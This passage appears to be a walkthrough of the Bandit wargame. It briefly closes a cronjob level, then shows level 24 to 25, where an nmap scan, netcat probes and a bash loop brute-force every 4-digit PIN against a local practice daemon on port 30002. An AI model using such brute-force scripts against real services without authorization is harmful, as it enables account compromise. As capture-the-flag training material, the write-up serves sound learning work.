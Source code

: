 ```bash
```
We now can either wait a few minutes for the cronjob to execute or force an execution,and then we should be able to view a new
file in our `/tmp` directory. If we `cat` out this file we should get the password for the next level. Too easy, am I right?


## Level 24 --> 25
Here we have to perform a brute force attack. So, now we aren't told much other than there is a deamon listening on port 30002
and will give us the password to level 25 when we give the correct combination of this level's password and 4-digit pin. So,
first we need to make a working directory and move into it.
```bash
$ mkdir /tmp/<UNIQUE NAME>
$ cd /tmp/<UNIQUE NAME>
```
We now need to figure out what protocol the daemon is using to listen on the port. So we need to do a `nmap`. 
- `$ nmap localhost -p 30002`
So we can see that the port is using TCP protocol and that's all we are given, but that's fine we'll just have to 
perform a test or two.
- `$ nc -l 30002` 
This returns an error saying that this address is already in use, so we may have found out which protocol this daemon
is using. Let's try another test.
- `$ nc localhost 30002`
  - NOTE: The difference between the two lines is that the `-l` argument is listening for traffic.
This allows us to interface with the daemon, so we will take note of this. Exit the `nc` session, and let's begin 
writing our brute forcer. 
- `$ vim brute.sh`
This is the script 
```bash 
#!/bin/bash
password='<bandit24 password>'
x=0
while [ $x -lt 10000 ]; do
	foo=$(printf "%04d" $x)
	echo $password' '$foo >> numbers.txt
	x=$((x+1))
done
```
Exit VIM and save the script. We now need to change the permissions on the script so that we can execute it.
```bash
$ chmod 777 brute.sh
$ ./brute.sh
```
We now need to use all of the possible inputs and perform the attack on the daemon. 
```bash
$ cat numbers.txt | nc localhost 30002 >> rezult
$ sort rezult | uniq -u
```
This attack works by inputing every possible value from the numbers.txt file we created, and outputs our results into
the file `rezult`. We then sort and pull out the unique lines from the rezult file to get the password.
	